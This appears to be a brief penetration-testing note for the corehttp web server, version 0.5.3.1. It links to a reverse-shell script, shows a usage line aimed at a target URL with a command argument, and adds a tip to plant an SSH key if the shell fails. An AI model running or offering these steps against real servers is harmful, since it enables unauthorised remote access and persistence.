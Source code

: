 # corehttp

## v0.5.3.1

```
https://github.com/tobor88/Bash/blob/master/corehttp-rev-shell.sh
$ ./corehttp-rev-shell.sh -u 'http://IP/dev/foo.pl' -s 'command'
# if shell not working, ssh key in.
```
